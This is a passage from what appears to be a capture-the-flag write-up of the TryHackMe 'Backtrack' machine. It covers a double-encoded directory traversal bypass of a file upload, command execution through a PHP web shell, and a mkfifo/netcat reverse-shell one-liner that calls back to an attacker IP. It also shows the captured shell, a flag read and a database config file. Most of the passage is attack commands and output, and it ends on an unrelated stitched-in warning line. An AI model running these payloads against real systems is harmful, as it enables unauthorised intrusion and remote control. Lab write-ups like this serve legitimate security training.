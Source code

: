 Looking for ways to bypass this, I found `%252e%252e%252f` on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md).

Trying this out, the file actually got uploaded to the parent directory, and we can now execute code.

![](<Pasted image 20241012204345.png>){: w="700" h="300" .center }

The webserver is running as `orville` as expected.
```console
m3ga@kali:~$ curl 'http://127.0.0.1/shell4.jpg.php?cmd=id'
uid=1003(orville) gid=1003(orville) groups=1003(orville)
```

To get a shell I URL-encoded this payload:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.75.248 443 >/tmp/f
```

And then used `curl` to execute it on the target.
```console
m3ga@kali:~$ curl 'http://127.0.0.1/shell4.jpg.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E11%2E75%2E248%20443%20%3E%2Ftmp%2Ff'


m3ga@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.75.248] from (UNKNOWN) [10.10.42.12] 60592
sh: 0: can't access tty; job control turned off
$ id
uid=1003(orville) gid=1003(orville) groups=1003(orville)
orville@Backtrack:~$ cat flag2.txt
THM{[REDACTED]}
```

The `db.php` files includes `orville`'s mysql password but it is useless. The password is not used anywhere else.
```console
orville@Backtrack:/var/www/html/includes$ cat db.php 
<?php
$host = 'localhost';
$dbname = 'backtrack';
$username = 'orville';
$password = '[REDACTED]';

try {
    $db = new PDO("mysql:host=$host;dbname=$dbname", $username, $password);
    $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    echo "Connection failed: " . $e->getMessage();
    die();
}
?>
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that